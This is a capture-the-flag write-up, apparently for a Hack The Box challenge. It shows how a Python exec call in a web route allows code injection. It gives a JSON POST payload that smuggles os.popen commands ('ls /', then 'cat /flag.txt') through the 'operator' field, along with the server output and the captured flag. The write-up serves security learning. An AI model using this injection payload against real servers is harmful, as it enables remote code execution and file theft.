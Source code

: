 # Evaluation Deck

> **DIFFICULTY**: easy
> 
> **POINTS**: 200

### Question

> A powerful demon has sent one of his ghost generals into our world to 
> ruin the fun of Halloween. The ghost can only be defeated by luck. Are 
> you lucky enough to draw the right cards to defeat him and save this 
> Halloween?

### Solution

- After reading the code and understanding it you will see in `challenge/application/blueprints/routes.py` the real work is made when requesting `SERVER-IP/api/get_health` using **POST** method

- We see that there is `exec` method and that's our HAPPINESS BULB

- After reading a bit about `compile` method in python I understood that Content-Type of the POST request must be json `Content-Type: application/json`

- After testing a bit I was able to build this little POST payload 

- > {
  > 
  >     "current_health": "0",
  >     "attack_power": "0",
  >     "operator": "\nimport os\nresult = os.popen('ls /').read()\nres = "
  > 
  > }

- The result was

- > {"message":"app\nbin\ndev\netc\nflag.txt\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}

- Then I changed the command from `'ls /` to `cat /flag.txt` and VOILAA 👏

- Result was 

- > {"message":"HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}"}

### Flag

> HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}

